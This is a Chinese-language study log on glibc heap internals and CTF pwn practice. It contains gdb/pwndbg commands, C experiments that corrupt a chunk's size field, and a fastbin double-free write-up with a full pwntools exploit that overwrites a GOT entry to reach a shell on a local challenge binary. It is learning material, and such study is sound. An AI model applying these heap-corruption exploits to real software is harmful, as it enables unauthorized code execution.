1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 $ ulimit -a pwndbg> top_chunk pwndbg> vmmap pwndbg> bin pwndbg> heap pwndbg> file ./<二进制文件名> pwndbg> x/150gx 0x<地址> $ gdb <二进制文件> pwndbg> set environment LD_PRELOAD ./<libc文件> pwndbg> starti $ gdb --args env LD_PRELOAD=./x64/2.23/libc-2.23.so ./x64/2.23/ld-2.23.so ./note $ LD_PRELOAD=./my.so ./my_program $ gdb your_program (gdb) set environment LD_PRELOAD=./yourso.so (gdb) start $ LD_PRELOAD=./my.so gdb ./my.program
好的学习文章 链接：Linux堆内存管理深入分析上 | Introspelliam
链接：Linux堆内存管理深入分析下 | Introspelliam
链接：Glibc堆管理机制基础 - unr4v31 - 博客园 (cnblogs.com)
Exploit利器——Pwntools - BrieflyX’s Base
关于addr=u32(r.recvuntil(‘\xf7‘)-4:])的解释_半岛铁盒@的博客-CSDN博客_recvuntil函数
攻防世界 | string - laolao - 博客园 (cnblogs.com)
堆（2022/07/17） 1、关于栈、堆、堆栈这三个东西，普遍认为堆栈只是栈的不同叫法，但有些地方会混淆堆栈的说法把堆说成堆栈，具体指什么还得自己在所处语境去自行分辨。
2、对于 “ 物理相邻的前一个chunk ” ，以chunk的prev_size为chunk前部，那么 “物理相邻的前一chunk” 是指相邻的第一个低地址chunk
Fastbin Attack paper （double free） 题目链接
[Ubuntu16.04安装教程](ubuntu20.04 & ubuntu16.04安装 | xiaoxiaoxy (xiaoxiaoxy1.github.io) )
1 2 3 4 5 6 7 8 9 解题步骤：(实验环境：Ubuntu16.04) 1、找漏洞点 IDA 反编译 paper 文件 got表可写 存在Double free的情况，可以进行任意地址写 fastbin Attack 中的 Double free 2、利用分析 利用double free重写got表地址，将后门函数地址覆盖got表中的特定函数 执行被覆写函数，就会跳到后门函数拿到shell
exp 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 from pwn import *context(arch = "amd64" ,os = "linux" ,log_level = "debug" ) io = process("./paper" ) def add (index,len ,content ): io.sendlineafter("2 delete paper" ,str (1 )) io.sendlineafter("Input the index you want to store(0-9):" ,str (index)) io.sendlineafter("How long you will enter:" ,str (len )) io.sendlineafter("please enter your content:" ,content) def delete (index ): io.sendlineafter("2 delete paper" ,str (2 )) io.sendlineafter("index(0-9):" ,str (index)) addr = 0x60202a addr1= 0x400943 size = 0x30 add(0 ,size,"1313" ) add(1 ,size,"1545" ) delete(0 ) delete(1 ) delete(0 ) add(2 ,size,p64(addr)) add(3 ,size,"1312" ) add(4 ,size,"1543" ) padding = b"\x40\x00\x00\x00\x00\x00" +p64(addr1) add(5 ,size,padding) io.sendlineafter("2 delete paper" ,str (1 )) io.interactive()
疑问 
构造的chunk大小服从于最终地址处适用的chunk大小，能否不服从于最终地址处适用chunk大小来构造chunk
小结 通过 fastbin double free 我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域或者是实现类似于类型混淆的效果。 如果更进一步修改 fd 指针，则能够实现任意地址分配堆块的效果 **(首先要通过验证)**，这就相当于任意地址写任意值的效果。
Arena：什么是堆漏洞挖掘？堆的glibc实现、Arena（main_arena、thread_arena）_董哥的黑板报的博客-CSDN博客
fastbin attack：Fastbin Attack - CTF Wiki (ctf-wiki.org)
参考链接：ctf堆入门 - paper | blingbling’s blog (blingblingxuanxuan.github.io)
tcache 链接：https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/4.14_glibc_tcache.html
一些关于堆上数据的研究 （2022/07/17） 注：忘了堆上的数据怎么存的、指针怎么指的的话就回头看两眼
接下来的操作都是在Ubuntu20.04版本下调试出来的
one（堆上的数据怎么存的？）（2022/07/18） 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 //源C代码 cs1d.c //编译指令：gcc -g cs1d.c -o cs1d 代码是修改别人的代码得来的 #include<stdio.h> int main(void) { void *hollk, *hollk1; hollk = malloc(0x10); //-2 分配第一个0x10的chunk malloc(0x10); //-1 分配第二个0x10的chunk *(long long *)((long long)hollk - 0x8) = 0x41; //0 修改第一个块的size域 *(long long *)((long long)hollk - 0x1) = 0x12; //1 对应下图中的 1 *(long long *)((long long)hollk - 0x2) = 0x4321; //2 对应下图中的 2 *(long long *)((long long)hollk - 0x3) = 0x23; //3 对应下图中的 3 *(long long *)((long long)hollk - 0x4) = 0x5432; //4 对应下图中的 4 *(long long *)((long long)hollk - 0xa) = 0x34; //5 对应下图中的 5 *(long long *)((long long)hollk - 0xb) = 0x6543; //6 对应下图中的 6 *(long long *)((long long)hollk - 0xc) = 0x45; //7 ...... *(long long *)((long long)hollk - 0xd) = 0x7654; //8 *(long long *)((long long)hollk - 0x10) = 0x11; //9 *(long long *)((long long)hollk - 0x11) = 0x22; //10 *(long long *)((long long)hollk - 0x12) = 0x3333; //11 *(long long *)((long long)hollk - 0x1a) = 0x44; //12 *(long long *)((long long)hollk - 0x1b) = 0x5555; //13 *(long long *)((long long)hollk - 0x0) = 0x99; //14 *(long long *)((long long)hollk + 0x1) = 0x8888; //15 *(long long *)((long long)hollk + 0x2) = 0x77; //16 *(long long *)((long long)hollk + 0x3) = 0x666; //17 *(long long *)((long long)hollk + 0x4) = 0x555555;//18 *(long long *)((long long)hollk + 0xa) = 0x44; //19 *(long long *)((long long)hollk + 0xb) = 0x33; //20 *(long long *)((long long)hollk + 0xc) = 0x2222; //21 *(long long *)((long long)hollk + 0xd) = 0x111111;//22 //注：0x10 = 16 free(hollk); hollk1 = malloc(0x30);// 实现extend，控制了第二个块的内容 return 0; } //参考链接：https://blog.csdn.net/qq_41202237/article/details/108320408 //以上链接估计是参考ctf wiki上的堆知识，不过比ctf wiki上的堆讲解看起来好懂很多


小结：经过对指针附近数据的变化可以看出，我们指向chunk的指针是指在User_data这一段起始的地方，而不是chunk头的Prev_size处
two（申请chunk后堆上的chunk分布是怎么样的？）（2022/07/18） 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 //源C代码 cs1e.c //gcc -g cs1e.c -o cs1e #include<stdio.h> int main(void) { void *hollk, *hollk1; //0之前vmmap指令查看不到heap堆 hollk = malloc(0x10); //0 分配第一个0x10的chunk 此时vmmap可以查看到内存上分出了堆空间 malloc(0x10); //1 分配第二个0x10的chunk malloc(0x20); //2 malloc(0x30); //3 malloc(0x40); //4 heap此时大小为0x21000字节 malloc(0x42000); //5 现在申请0x42000字节看heap增大到多少。 结果：heap并未增长 *(long long *)((long long)hollk - 0x8) = 0x41;// 修改第一个块的size域 free(hollk); hollk1 = malloc(0x30);// 实现extend，控制了第二个块的内容 return 0; }



可以看出当malloc申请一个大于当前初始分配的堆空间时没有立马扩大当前的堆区，而是先在Memory Mapping Segment 中调用了一段空间，或许之后利用到这块空间时，堆管理器才会向操作系统申请一块更大的堆空间来完成对这段0x42000字节空间的分配。总之很多细节本人目前也不了解，没研究过源码，也找不到相关的学习资料，只能靠个人的猜测。以下是百度找来的图片，帮助理解

小结：
不难发现，top chunk的空间从20d50—>20d30—>20d00—>20cc0—>20c70，说明在bin中无合适（目前没有执行过free，bin表为空）chunk的情况下新的chunk的申请空间直接从top chunk划分出来，并紧挨着top chunk
发现的小知识：以上代码申请到的堆空间大小为0x7a000-0x59000 = 0x21000 = 135168 B = 132 KB，也就是说默认分配了132KB的内存空间作为堆的空间

目前的堆结构可由下图表示(个人的理解)：对了，top chunk也是有chunk头的，图中没表示出来

发现只有prev_size、size、user_data三段，fd、bk未发现。思考+百度后个人在想：可能只有free掉chunk后，chunk进入bin中才会出现fd、bk字段
看到了一篇文章，事实证明我的猜测没有错[机智]：Glibc堆管理机制基础 - unr4v31 - 博客园 (cnblogs.com)
three（实操+看文章后对alloced chunk的理解）（2022/07/18） ctf-wiki中说到：
prev_size , 如果该 chunk 的物理相邻的前一地址 chunk（两个指针的地址差值为前一 chunk 大小） 是空闲的话，那该字段记录的是前一个 chunk 的大小 (包括 chunk 头)。否则，该字段可以用来存储物理相邻的前一个 chunk 的数据。这里的前一 chunk 指的是较低地址的 chunk 。

size，该 chunk 的大小，大小必须是 2 * SIZE_SZ 的整数倍。如果申请的内存大小不是 2 * SIZE_SZ 的整数倍，会被转换满足大小的最小的 2 * SIZE_SZ 的倍数。32 位系统中，SIZE_SZ 是 4；64 位系统中，SIZE_SZ 是 8。 该字段的低三个比特位对 chunk 的大小没有影响，它们从高到低分别表示
NON_MAIN_ARENA，记录当前 chunk 是否不属于主线程，1 表示不属于，0 表示属于。
IS_MAPPED，记录当前 chunk 是否是由 mmap 分配的。
PREV_INUSE，记录前一个 chunk 块是否被分配。一般来说，堆中第一个被分配的内存块的 size 字段的 P 位都会被设置为 1，以便于防止访问前面的非法内存。当一个 chunk 的 size 的 P 位为 0 时，我们能通过 prev_size 字段来获取上一个 chunk 的大小以及地址。这也方便进行空闲 chunk 之间的合并。
对于fd、bk、fd_nextsize、bk_nextsize，到了相应类型的chunk再提，以上是alloced chunk（已分配且正在使用）
four（free chunk）（2022/07/18） 1 2 3 4 5 6 7 8 9 10 11 12 13 //源C代码 cs1.c //gcc -g cs1.c -o cs1 #include<stdio.h> int main(void) { void *hollk, *hollk1; //0之前vmmap指令查看不到heap堆 hollk = malloc(0x10); //0 分配第一个0x10的chunk 此时vmmap可以查看到内存上分出了堆空间 malloc(0x10); //1 分配第二个0x10的chunk *(long long *)((long long)hollk - 0x8) = 0x41;// 修改第一个块的size域 free(hollk); hollk1 = malloc(0x30);// 实现extend，控制了第二个块的内容 return 0; }

free(hollk); 过后，上图中的bin中的tcachebins出现了记录，并没有出现在fastbins中，应该是Ubuntu20.04版本用到了新的堆管理机制。
目前我要实验学习的东西与我的现有环境不匹配，所以后续实验只能暂时打住。
之后呢先看看理论，试着做做堆题，要是能把握住，暂时就带着这点基础深入学习堆漏洞，若学着吃力学得慢，有些细节弄不明白的话我再考虑装个Ubuntu16.04虚拟机然后继续实验，底层逻辑都搞懂了再继续深入
five（2022/07/20） 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 #include <stdio.h> int main (void ) void *hollk, *hollk1; hollk = malloc (0x10 ); malloc (0x10 ); gets(hollk); *(long long *)((long long )hollk - 0x8 ) = 0x41 ; free (hollk); hollk1 = malloc (0x30 ); return 0 ; }

至于top chunk为什么缩小了那么多（20d30—>20920）见下图
